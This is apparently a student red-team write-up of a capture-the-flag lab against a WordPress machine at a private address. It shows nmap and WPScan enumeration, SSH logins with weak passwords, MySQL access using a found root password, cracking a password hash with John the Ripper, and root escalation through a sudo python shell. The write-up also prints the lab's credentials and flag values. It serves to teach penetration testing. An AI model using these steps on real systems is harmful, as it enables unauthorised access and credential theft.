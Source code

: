 ﻿Joaquin Serrano

Red Team: Summary of Operations

Table of Contents
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

Kali Linux Command
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 

Nmap scan results for each machine reveal the below services and OS details:
* Find the version of the service running on port 192.168.1.110
Kali Linux Command: 
* $ nmap -sV 192.168.1.110
  

This scan identifies the services below as potential points of entry:
* Target 1-Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn
Critical Vulnerabilities
The following vulnerabilities were identified on each target:
* Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)
Exploitation
* dirb returns the enumerated directories found within the target URL
  

  

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


* Target 1
   * flag1.txt: b9bbcb33e11b80be759c4e844


      * Exploit Used
         * WPScan to enumerate users of the Target 1 WordPress site
         * SSH using Michael’s credentials, Flag 1 was found
         * Flag 1 was found in /var/www in the HTML folder


Kali Linux Command: 
* $ wpscan -u http://192.168.1.110/wordpress -eu
  

  

  



   * flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


   * Exploit used:
         * Continuation of exploit from Target 1. 
         * SSH using Michael’s credentials, Flag 2 was found. 
         * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 
Kali Linux Commands: 
      * $ ssh michael@192.168.1.110
      * pwd
      * cd var/www
      * ls -l
      * cat flag2.txt
  

  

* Flag 3: afc01ab56b50591e7dccf93122770cd2


* Exploit used: 
   * Continuation of Exploit from Target 1. 
* Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
  





Kali Linux Command: $ mysql -u root -p
* Password: R@v3nSecurity  Host: 127.0.0.1
* Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
* show databases;
* use wordpress; 
* show tables;
* Select * from wp_users; 




  



  



  

  

  

* Flag 4: 715dea6c055b9fe3337544932f2941ce
* Exploit used:
   * Unsalted password hash and privilege escalation with Python
* Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   * Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   * Copied the username and password hash for Steven. Saved the file and named it  hash.txt


* Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;
  

  

* Utilized John the Ripper to crack the password hash from the hash.txt file.
* Kali Linux command: 
   * $ john hash
  

* Steven Password cracked: pink84
  

* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
  

* Use python to gain root privileges
  

* cd root
* ls
* cat flag4.txt
* Captured Flag4